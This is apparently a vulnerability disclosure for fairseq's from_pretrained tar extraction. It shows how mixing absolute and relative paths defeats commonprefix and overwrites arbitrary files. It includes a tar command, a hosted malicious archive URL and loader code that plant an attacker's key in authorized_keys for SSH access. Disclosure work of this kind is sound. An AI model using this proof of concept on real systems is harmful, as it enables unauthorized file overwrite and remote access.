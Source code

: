 During the testing, I found the file to be overwrite is missing. By reading the source code carefully, it uses `shutil.move` to move files extracted to `resolved_archive_file` target. The move source is from `os.path.join(tempdir, top_dir)` and `top_dir` is from `os.path.commonprefix(archive.getnames())`. Well, this is controlled by attacker, in [Python documents](https://docs.python.org/3/library/os.path.html#os.path.commonprefix), when list contains both abs and relative pathnames, it will return empty string in which attacker can include abs and relative names in tar file, and then `move` source will be `tempdir` which bypass the `shutil.move`. 

```
> os.path.commonprefix(['/home/kali/.ssh/xx', '404.html'])
  ''
> os.path.join("/root/tmp/","")
  '/root/tmp/'
```

## Proof of Concept

An attacker can create a malicous tar file using following command:

```
tar --absolute-names -cvf hack.tar /home/kali/.ssh/authorized_keys 404.html
```

Then, the attacker will upload the `hack.tar` to public server. 

I have uploaded one malicous tar file for testing: [https://raw.githubusercontent.com/sunriseXu/onnx/main/validated/hack-abs-and-relative.tar](https://raw.githubusercontent.com/sunriseXu/onnx/main/validated/hack-abs-and-relative.tar)

If anyone now downloads tar using `from_pretrained` api, causing automatically extracting the malicous tar file and overwrite files silently.

```
from fairseq.models.transformer import TransformerModel
model = TransformerModel.from_pretrained('https://raw.githubusercontent.com/sunriseXu/onnx/main/validated/hack-abs-and-relative.tar')
```

```
> cat /home/kali/.ssh/authorized_keys
ssh-rsa xxx hacker@test.com
```

Tested on Google Colab: [https://colab.research.google.com/drive/1AY9iqw_FdTvMGoqaDseX8jCnSGV9qCq6?usp=sharing](https://colab.research.google.com/drive/1AY9iqw_FdTvMGoqaDseX8jCnSGV9qCq6?usp=sharing)

![poc](https://live.staticflickr.com/65535/53639482085_b57cae8712_k.jpg)

## Impact

This vulnerability can have severe consequences. This section will highlight some tangible impact.

### SSH Access

On servers that have SSH enabled, an attacker may be able to inject their own public RSA key into the authorized_keys file, leading to remote code execution.
